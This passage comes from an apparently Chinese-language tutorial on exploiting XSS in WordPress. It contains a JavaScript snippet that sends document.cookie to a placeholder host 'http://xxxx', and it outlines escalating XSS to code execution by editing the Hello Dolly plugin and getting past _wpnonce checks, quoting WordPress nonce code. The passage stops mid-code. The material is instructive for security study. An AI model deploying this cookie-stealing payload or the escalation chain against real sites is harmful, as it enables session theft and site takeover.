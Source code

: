 我们插入的`<script>alert(1)</script>`被当作正常的js代码执行了

让我们回到之前的测试环境中

![image.png-111.6kB][3]

我们可以通过一个漏洞点执行我们想要的js代码。

## 盗取Cookie

在一般的通用cms下呢，为了通用模板的兼容性，cms本身不会使用CSP等其他手段来防护xss漏洞，而是使用自建的过滤函数来处理，在这种情况下，一旦出现xss漏洞，我们就可以直接使用xhr来传输cookie。

简单的demo如下
```
<script>
var xml = new XMLHttpRequest(); 
xml.open('POST', 'http://xxxx', true); 
xml.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xml.send('cookie='+document.cookie)
</script>
```

这里我们可以直接使用xhr来传递cookie，但可惜的是，由于wordpress的身份验证cookie是httponly，我们无法使用简单的`documen.cookie`来获取cookie。
![image.png-28.1kB][4]

但无情的是，我们可以通过和别的问题配合来解决这个问题。在这之前，我们先来回顾一种在brutelogic的ppt中提到的xss2rce的利用方式。

通过这其中的思路，我们可以在整个wordpress站点中执行我们想要的任何攻击。

## Xss to Rce

在wordpress的后台，有一个编辑插件的功能，通过这个功能，我们可以直接修改后台插件文件夹的任何内容。

而在默认下载的Wordpress中，都会包含Hello Dolly插件，通过修改这个插件内容并启动插件，我们可以执行想要的任何代码。

但在这之前，我们首先要了解一下，wordpress关于csrf的防御机制，在wordpress中引入了`_wpnonce`作为判断请求来源的参数。

在一般涉及到修改更新等操作的时候，会调用`check_admin_referer()`函数来判断传入的wpnonce是否和该操作计算的nonce值相等，后台部分代码如下：

```
function wp_verify_nonce( $nonce, $action = -1 ) {
	$nonce = (string) $nonce;
	$user = wp_get_current_user();
	$uid = (int) $user->ID;
	if ( ! $uid ) {
		/**
		 * Filters whether the user who generated the nonce is logged out.
		 *
		 * @since 3.5.0
		 *
		 * @param int    $uid    ID of the nonce-owning user.
		 * @param string $action The nonce action.
		 */
		$uid = apply_filters( 'nonce_user_logged_out', $uid, $action );
	}

	if ( empty( $nonce ) ) {
		return false;
	}

	$token = wp_get_session_token();
	$i = wp_nonce_tick();

	// Nonce generated 0-12 hours ago
	$expected = substr( wp_hash( $i . '|' . $action . '|' . $uid . '|' . $token, 'nonce'), -12, 10 );
```

  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png